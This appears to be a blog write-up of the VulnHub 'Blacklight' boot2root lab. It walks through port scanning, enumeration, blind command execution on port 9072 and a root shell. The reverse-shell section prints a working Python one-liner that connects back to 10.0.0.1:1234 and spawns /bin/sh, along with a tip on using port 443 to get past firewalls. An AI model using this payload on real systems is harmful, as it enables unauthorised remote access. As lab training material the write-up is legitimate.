 ```yaml
---
layout: post
title:	"Blacklight Writeup"
date:	2018-07-22 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - vulnhub
---
```

<title> Blacklight Writeup </title>
![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/logo.png)

## i. Port Scan

Full TCP port scan using unicornscan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/port.png)

~~~
$ unicornscan -Iv -r 160 -mT IP:a

-Iv = Immediately display results as they are found (-v = verbose)
-r = rate of packets to send per second
-mT = mode TCP
IP = host's ip
a = all (Scan 65535 ports)
~~~

`Ports 80 and 9072 are open`

## ii. Enumeration

Starting with port 80, we browse to the host.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/http.png)

We got a hint, `The web is the way`.

Running a directory search to see if we can find any hidden files or directories:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/dirsearch.png)

`robots.txt` seems to stand out.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/robots.png)

Inside, we find flag1.txt and what seems to be a dictionary file.

Navigating to flag1.txt:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/flag1.png)

Perfect, flag #1 captured.

The next hint is:
~~~
9072. The secret is at home.
~~~

Could this be referring to port 9072 that we found open in the port scan?

Connecting to port 9072 using netcat:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/console.png)

It seems that we are able to execute a few commands.

Running .readhash:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/hash.png)

Could this hash be related to the wordlist we found earlier?

Attempting to crack the hash using hashcat with the blacklight dictionary:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/cracker.png)

Looks like the hash can't be cracked... let's move on to the next command in the console.

.exec seems like it allows us to execute commands. Let's try a basic command to see if it is executed.

`Note: Once you issue two commands to the server (including .readhash), port 9072 will close and you will have to restart the virtual machine.`

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)

Seems like the command is not executed, (or maybe it is?), but we cannot see the output.

To test our theory for blind command execution, we can host a web server and execute wget in the console to see if any connections are made:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)

Perfect, it looks like the box is making a connection to our host.

Which means that the box is executing commands, but we don't see the output (therefore it is called blind).

## iii. Reverse Shell

Since we know that the box is able to execute commands, let's try a reverse shell.

Python One Liner:
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

source: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

Make sure to update the command with your IP Address & Listening Port.

Using Port 443 is more reliable, just in case the host has some sort of firewall setup that is blocking outbound connections on unknown ports.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/revshellpart1.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/revshellpart2.png)

After executing the command, we got a reverse shell.

We are able to use this python one-liner to spawn a TTY shell.

~~~
python -c 'import pty;pty.spawn("/bin/bash")'
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/pty.png)

`Looks like we are root already!`

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/root.png)

# IV. Conclusion

Blacklight was fun & easy. The hash rabbit hole drove me crazy for a few hours, while I tried cracking with wordlists such as rockyou, or trying to use the blacklight wordlist with rules.

Apart from that, I felt that the privilege escalation was a little incomplete, as we were elevated to root immediately.

Apart from that, I enjoyed the box.

Find the box on Vulnhub: https://www.vulnhub.com/entry/blacklight-1,242/

~~~
Sources / Links:

[0]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[1]: https://www.vulnhub.com/entry/blacklight-1,242/
~~~


